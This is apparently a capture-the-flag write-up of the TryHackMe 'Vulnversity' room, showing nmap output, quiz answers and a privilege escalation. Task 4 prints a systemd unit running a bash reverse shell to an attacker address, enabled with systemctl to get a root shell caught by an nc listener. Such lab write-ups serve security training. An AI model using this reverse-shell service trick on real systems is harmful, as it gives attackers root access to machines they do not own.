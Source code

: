 # Vuln University

[Play](https://tryhackme.com/room/vulnversity)

## Task 1 - Deploy the machine
ezpz

## Task 2 - Recon

```
❯ nmap -sC -sV -A 10.10.197.89
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-07 21:43 EST
Nmap scan report for 10.10.197.89
Host is up (0.18s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m01s, deviation: 2h53m12s, median: 0s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-03-07T21:43:45-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-08T02:43:46
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.10 seconds

```

### Scan the box, how many ports are open?
`6`

### What version of the squid proxy is running on the machine?
`3.5.12`

### How many ports will nmap scan if the flag -p-400 was used?
`400`

### Using the nmap flag -n what will it not resolve?
`dns`

### What is the most likely operating system this machine is running?
`ubuntu`

### What port is the web server running on?
`3333`

### Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)
ok

## Task 3 - Locating directories using gobuster
### What is the directory that has an upload form page?
`/include/`

## Task 4 - Compromise the webserver


```
www-data@vulnuniversity:/var/www/html/internal/uploads$ cat root.service
cat root.service
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.8.150.214/9999 0>&1'

[Install]
WantedBy=multi-user.target
www-data@vulnuniversity:/var/www/html/internal/uploads$ /bin/systemctl enable root.service
<r/www/html/internal/uploads$ /bin/systemctl enable             root.service 
Failed to execute operation: No such file or directory
www-data@vulnuniversity:/var/www/html/internal/uploads$ /bin/systemctl enable ./root.service
<r/www/html/internal/uploads$ /bin/systemctl enable             ./root.service
Failed to execute operation: Invalid argument
www-data@vulnuniversity:/var/www/html/internal/uploads$ pwd
pwd
/var/www/html/internal/uploads
www-data@vulnuniversity:/var/www/html/internal/uploads$ /bin/systemctl enable /var/www/html/internal/uploads/root.service
<s$ /bin/systemctl enable /var/www/html/internal/uploads/root.service        
Created symlink from /etc/systemd/system/multi-user.target.wants/root.service to /var/www/html/internal/uploads/root.service.
Created symlink from /etc/systemd/system/root.service to /var/www/html/internal/uploads/root.service.
www-data@vulnuniversity:/var/www/html/internal/uploads$ /bin/systemctl start root.service
<r/www/html/internal/uploads$ /bin/systemctl start root.service 
```


```
❯ nc -lnvp 9999
listening on [any] 9999 ...
connect to [10.8.150.214] from (UNKNOWN) [10.10.185.229] 43756
bash: cannot set terminal process group (1792): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnuniversity:/# whoami
whoami
root
root@vulnuniversity:/# cd /root
cd /root
root@vulnuniversity:~# ls
ls
root.txt
root@vulnuniversity:~# cat root.txt
cat root.txt
{hell yeah}
root@vulnuniversity:~# 
```